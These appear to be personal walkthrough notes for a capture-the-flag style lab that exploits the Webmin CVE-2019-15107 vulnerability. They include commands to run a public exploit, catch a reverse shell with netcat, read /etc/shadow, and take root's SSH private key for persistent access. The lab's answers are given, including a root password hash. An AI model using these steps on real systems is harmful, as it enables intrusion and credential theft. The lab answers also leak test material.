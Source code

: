 In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Exploitation-20241127151137527.webp]]


[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

Run the following command to get the user.
```
# whoami
```

![[Exploitation-20241127151941324.webp]]

> [!Success]
>We won't need to escalate privileges here, so we can move on to the next step in the exploitation process. Before we do though: nice though this pseudoshell is, it's not a full reverse shell. Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.

> [!question]
>Which user was the server running as?
>`root'
## Shell
- Type shell and introduce the ATTACKING MACHINE IP and a port.
- Open a netcat connection on the ATTACKING_MACHINE.

![[Exploitation-20241129143642892.webp]]

```
$ nc -lnvp <port>
```

You'll have a reverse shell.


## Stabilize the reverse shell

**Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm

```


## root user's password hash

Run the following command on the reverse shell:

```
# cat /etc/shadow
```

![[Exploitation-20241129144943322.webp]]

### **Hash Components**

1. **Hashing Algorithm**:  
    `$6$` signifies the use of **SHA-512** hashing.
    
2. **Salt**:  
    `i9vT8tk3SoXXxK2P` is the salt used in this hash. It randomizes the hash computation to ensure uniqueness, even if two users have the same password.
    
3. **Hash Value**:  
    `HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1` is the actual hash of the password combined with the salt.
    
4. **Remaining Fields**:  
    The `::0:99999:7:::` part relates to password aging and policy settings:
    
    - `0`: Minimum number of days before the password can be changed.
    - `99999`: Maximum number of days the password is valid.
    - `7`: Warning days before the password expires.
    - `:::`: Reserved fields, typically empty.


> [!question]
>Now for a little post-exploitation!What is the root user's password hash?
>`$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`


## Consistent access to the root user account

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

One of the services on the machine is SSH.

The **SSH (Secure Shell) service** is a network protocol that allows secure remote login and command execution over an encrypted connection. It is widely used to manage Linux/Unix systems remotely.

### **Key Features of SSH**

1. **Encryption**: All data transmitted between the client and server is encrypted.
2. **Authentication**:
    - Password-based authentication.
    - Key-based authentication using SSH keys.
3. **Port Forwarding**: Securely forward ports over an SSH connection.
4. **File Transfer**: Tools like `scp` and `sftp` are built on SSH for secure file transfer.
5. **Tunneling**: Encrypt network traffic for other applications (e.g., SOCKS proxy).

### **SSH Key Files Overview**

When you generate an SSH key pair, two files are created:

1. `id_rsa`: The private key (keep this secure and never share it).
2. `id_rsa.pub`: The public key (this can be shared and placed on the remote server).

These files are usually stored in the `~/.ssh/` directory on your Linux machine.

> [!question]
>What is the full path to this file?
>`/root/.ssh/id_rsa`

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

We have everything we need for now. Let's move on to the next section: Pivoting!

**Next section:** [[What is Pivoting?]]
